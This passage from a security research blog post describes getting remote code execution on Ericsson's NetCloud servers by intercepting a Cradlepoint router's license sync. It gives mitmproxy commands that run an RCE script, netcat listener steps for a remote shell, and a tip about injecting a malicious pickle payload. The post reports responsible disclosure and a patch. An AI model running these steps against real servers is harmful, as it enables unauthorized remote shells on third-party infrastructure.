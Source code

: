 2) Finally, simply start mitmproxy, wait for the lisence sync to happen (e.g., reboot the router) and get a remote shell:

```bash
$ mitmproxy --mode transparent \
    --set confdir=$HOME/mitmproxy \
    --rawtcp \
    --tcp-hosts ".*" \
    -s mitmproxy_netcloud_rce.py
```

3) To quickly test the [mitmproxy_netcloud_rce.py](https://github.com/veganmosfet/Rooting-the-Cradlepoint-IBR600/blob/main/netcloud/scripts/mitmproxy_netcloud_rce.py) script you can do the following:

- In the script change the IP address to `127.0.0.1` and the payload's Python interpreter to just `python` or `python3`
- Start `mitmdump` in one terminal window: `$ mitmdump --rawtcp --tcp-hosts ".*" -s mitmproxy_netcloud_rce.py`
- In another window start a netcat listener
- Tunnel a [license packet](https://github.com/veganmosfet/Rooting-the-Cradlepoint-IBR600/blob/main/netcloud/scripts/license_packet_TO_netcloud.bin): `$ cat license_packet_TO_netcloud.bin | openssl s_client -connect "google.com:443" -proxy localhost:8080`

{{< box info >}}
Actually, you don't need to be a MITM to gain RCE on NetCloud server's. If you have access to the rootfs, you could simply [emulate](https://github.com/veganmosfet/Rooting-the-Cradlepoint-IBR600/tree/main/router_emulation) and modify the router's NetCloud client. It's all Python bytecode which can be easily decompiled.

We already simulated some of the NetCloud registration in our [testing script](https://github.com/veganmosfet/Rooting-the-Cradlepoint-IBR600/blob/main/netcloud/scripts/test_netcloud_registration.py). Add code for license file handling and inject your malicious pickle payload. That's it.
{{< /box >}}

## Responsible Disclosure

On `2023-01-05` we disclosed our findings to Ericsson who quickly released a patch shortly after and mentioned us on their [Security Hall of Fame](https://www.ericsson.com/en/about-us/security/vulnerability-reporting-form/acknowledgements) :trophy:

## Conclusion

In this blog post I've shown you how to intercept a Cradlepoint router's NetCloud communications. This is easily possible on a rooted device as you can add your own malicious CA certificate to MITM the TLS traffic.

After all, this is possible because there is no Secure Boot in place that would protect against such modifications. Also, Cradlepoint has made some wrong trust assumptions, thinking TLS would be sufficient to protect pickled data payloads against tampering.